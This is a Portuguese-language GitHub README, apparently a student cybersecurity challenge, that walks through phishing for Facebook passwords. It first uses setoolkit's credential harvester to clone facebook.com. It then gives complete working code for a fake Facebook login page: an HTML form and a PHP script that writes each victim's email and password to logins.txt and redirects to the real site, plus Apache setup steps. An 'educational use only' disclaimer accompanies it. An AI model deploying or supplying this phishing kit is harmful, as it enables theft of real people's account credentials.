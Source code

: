 # cibersecurity-desafio-phishing
Phishing para captura de senhas do Facebook

Ferramentas

Kali Linux

setoolkit

Configurando o Phishing no Kali Linux

Acesso root: sudo su

Iniciando o setoolkit: 

Tipo de ataque: Social-Engineering Attacks

Vetor de ataque: Web Site Attack Vectors

Método de ataque: Credential Harvester Attack Method 

Método de ataque: Site Cloner

Obtendo o endereço da máquina: ifconfig

URL para clone: http://www.facebook.com


![Captura de tela 2025-06-11 091900](https://github.com/user-attachments/assets/5e1a7afe-ff99-41b7-94c6-5abbae6526c0)
ss

sobre a imagem acima

Nesse  caso, não aparece diretamente um "username" ou "password" legível. Isso pode acontecer quando:

O site clonado não usa formulários padrão (como o Facebook, que usa JavaScript avançado e AJAX).

Os dados são enviados em partes criptografadas ou com tokens.

por isso ocorreu o erro.

eu consegui fazer mais de outra forma fazendo uma pagina fake do facebook

#  Página Falsa do Facebook para Captura Simulada de Login

⚠️ **ATENÇÃO**: Este projeto é estritamente para fins educacionais e deve ser utilizado apenas em ambientes controlados e com autorização. **Não utilize este código para fins ilegais ou maliciosos.**

---

## 🎯 Objetivo

Simular uma página de login com aparência semelhante ao Facebook, capturar os dados digitados (e-mail e senha), armazená-los localmente e redirecionar o usuário para o site verdadeiro do Facebook. Projeto voltado para fins de estudo em **cibersegurança e engenharia social**.

---

## 🧰 Tecnologias e Ferramentas Usadas

- Kali Linux (VirtualBox)
- 
- Apache2
- 
- HTML + CSS
- 
- PHP
- 
- Bash (comandos de terminal)

---

## 🛠️ Etapas do Projeto

### 1. Instalação e execução do Apache

```bash
sudo apt update

sudo apt install apache2

sudo systemctl start apache2

sudo systemctl enable apache2

### 2. Verificar se o Apache está rodando

sudo systemctl status apache2

Você deve ver algo como:

Active: active (running)

### 3. Descobrir o IP local da máquina

ip a

Procure uma linha como:

inet 192.168.1.5/24

Esse será o IP para acessar a página falsa:

192.168.1.5

🧩 Arquivos do Projeto

index.html
Página de login falsa com visual semelhante ao Facebook.

<form method="POST" action="process_login.php">
  <input type="text" name="email" placeholder="Email ou telefone" required />
  <input type="password" name="password" placeholder="Senha" required />
  <button type="submit">Entrar</button>
</form>

Salve como:

sudo nano /var/www/html/index.html

process_login.php
Script que recebe os dados do formulário, salva no arquivo logins.txt e redireciona para o Facebook verdadeiro.

<?php
if ($_SERVER["REQUEST_METHOD"] === "POST") {
    $email = $_POST['email'] ?? '';
    $password = $_POST['password'] ?? '';
    file_put_contents("logins.txt", "Email: $email | Senha: $password\n", FILE_APPEND);
    header("Location: https://www.facebook.com");
    exit();
} else {
    echo "Método inválido.";
}
?>

Salve como:

sudo nano /var/www/html/process_login.php

logins.txt
Arquivo onde os dados capturados serão armazenados.

sudo touch /var/www/html/logins.txt
sudo chmod 666 /var/www/html/logins.txt


✅ Teste Final
Acesse: http://192.168.1.5

Preencha e envie o formulário

Verifique se você foi redirecionado para o site real

Veja os dados capturados:

cat /var/www/html/logins.txt

## Exemplo de Captura


![captura de tela 2025-06-11 091900](https://github.com/user-attachments/assets/31bd3658-6973-4460-95b7-c7419ad9348f)
